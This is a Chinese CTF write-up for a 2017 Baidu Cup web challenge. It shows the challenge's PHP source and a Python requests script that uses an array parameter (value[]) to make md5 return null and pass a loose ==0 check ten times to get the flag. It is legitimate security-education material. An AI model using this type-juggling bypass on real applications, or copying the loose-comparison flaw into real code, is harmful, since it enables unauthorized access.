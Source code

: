# 题目名称

## 题目描述
---
```
这个真的是爆破。

```

## 题目来源
---
“百度杯”CTF比赛 2017 二月场

## 主要知识点
---


## 题目分值
---
10

## 部署方式
---


## 解题思路
---

打开题目给出了源码 

```php
<?php 
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
?>
```

将url中的value参数改成`value[]`数组即`?value[]=ea`，比如回显出来的两个字母为hl，再输入`?value[]=hl`，以此类推十遍，因为md5加密一个数组值为`null`，而null==0，这样可以绕过`substr(md5($value),5,4)==0)`判断，用python脚本如下：

```python
import requests
url='http://***.changame.ichunqiu.com/'
session=requests.Session()
html=session.get(url+'?value[]=ea').text
for i in range(10):
    html=session.get(url+'?value[]='+html[0:2]).text
    if 'flag{.*}' in html:
        break
print (html)
```

![](images/ctf-2021-06-05-01-06-17.png)

## 参考
---
